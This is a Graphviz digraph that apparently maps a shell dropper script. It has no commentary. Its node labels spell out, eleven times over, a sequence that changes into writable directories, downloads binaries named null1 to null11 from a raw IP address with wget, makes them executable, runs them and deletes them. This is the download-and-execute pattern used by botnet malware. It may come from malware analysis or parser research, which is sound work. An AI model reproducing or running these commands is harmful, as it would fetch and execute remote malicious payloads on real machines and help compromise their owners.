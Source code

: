 digraph {
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 10 [label="||,"];
10 [label="wget http://217.61.121.93/null1 "];
10 -> 12 [label=";,"];
12 [label="chmod +x null1 "];
12 -> 14 [label=";,"];
14 [label="./null1 "];
14 -> 16 [label=";,"];
16 [label="rm -rf null1 "];
16 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 28 [label="||,"];
28 [label="wget http://217.61.121.93/null2 "];
28 -> 30 [label=";,"];
30 [label="chmod +x null2 "];
30 -> 32 [label=";,"];
32 [label="./null2 "];
32 -> 34 [label=";,"];
34 [label="rm -rf null2 "];
34 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 46 [label="||,"];
46 [label="wget http://217.61.121.93/null3 "];
46 -> 48 [label=";,"];
48 [label="chmod +x null3 "];
48 -> 50 [label=";,"];
50 [label="./null3 "];
50 -> 52 [label=";,"];
52 [label="rm -rf null3 "];
52 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 64 [label="||,"];
64 [label="wget http://217.61.121.93/null4 "];
64 -> 66 [label=";,"];
66 [label="chmod +x null4 "];
66 -> 68 [label=";,"];
68 [label="./null4 "];
68 -> 70 [label=";,"];
70 [label="rm -rf null4 "];
70 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 82 [label="||,"];
82 [label="wget http://217.61.121.93/null5 "];
82 -> 84 [label=";,"];
84 [label="chmod +x null5 "];
84 -> 86 [label=";,"];
86 [label="./null5 "];
86 -> 88 [label=";,"];
88 [label="rm -rf null5 "];
88 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 100 [label="||,"];
100 [label="wget http://217.61.121.93/null6 "];
100 -> 102 [label=";,"];
102 [label="chmod +x null6 "];
102 -> 104 [label=";,"];
104 [label="./null6 "];
104 -> 106 [label=";,"];
106 [label="rm -rf null6 "];
106 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 118 [label="||,"];
118 [label="wget http://217.61.121.93/null7 "];
118 -> 120 [label=";,"];
120 [label="chmod +x null7 "];
120 -> 122 [label=";,"];
122 [label="./null7 "];
122 -> 124 [label=";,"];
124 [label="rm -rf null7 "];
124 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 136 [label="||,"];
136 [label="wget http://217.61.121.93/null8 "];
136 -> 138 [label=";,"];
138 [label="chmod +x null8 "];
138 -> 140 [label=";,"];
140 [label="./null8 "];
140 -> 142 [label=";,"];
142 [label="rm -rf null8 "];
142 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 154 [label="||,"];
154 [label="wget http://217.61.121.93/null9 "];
154 -> 156 [label=";,"];
156 [label="chmod +x null9 "];
156 -> 158 [label=";,"];
158 [label="./null9 "];
158 -> 160 [label=";,"];
160 [label="rm -rf null9 "];
160 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 172 [label="||,"];
172 [label="wget http://217.61.121.93/null10 "];
172 -> 174 [label=";,"];
174 [label="chmod +x null10 "];
174 -> 176 [label=";,"];
176 [label="./null10 "];
176 -> 178 [label=";,"];
178 [label="rm -rf null10 "];
178 -> 180 [label=";,"];
180 [label="cd /tmp "];
180 -> 180
182 [label="cd /var/system "];
182 -> 184 [label="||,"];
184 [label="cd /mnt "];
184 -> 186 [label="||,"];
186 [label="cd /root "];
186 -> 188 [label="||,"];
188 [label="cd / "];
188 -> 190 [label="||,"];
190 [label="wget http://217.61.121.93/null11 "];
190 -> 192 [label=";,"];
192 [label="chmod +x null11 "];
192 -> 194 [label=";,"];
194 [label="./null11 "];
194 -> 195 [label=";,"];
}
